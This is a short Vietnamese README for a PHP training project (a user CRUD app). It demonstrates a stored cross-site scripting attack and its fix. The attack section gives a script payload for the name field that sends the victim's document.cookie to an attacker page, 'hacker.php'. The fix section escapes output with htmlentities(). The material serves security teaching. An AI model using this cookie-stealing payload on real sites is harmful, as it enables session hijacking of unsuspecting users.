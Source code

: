 # Cách tấn công

- Ấn vào Add new user -> phần name điền như sau -> `<script>window.location.href = "hacker.php?cookie=" + document.cookie</script>` -> Submit

# Khắc phục bị tấn công

- Thêm htmlentities() vào khi xuất ra table -> `<?php echo htmlentities($user['name'])?>`

# php-training

- Repository: https://github.com/tailieuweb/training-php

## System requirements

- Apache: 2.4
- MySQL: 5.7 ; MariaDB: 10.x
- PHP: 7.x, 8.x
- Wamp/Xampp

# Features

- CRUD user
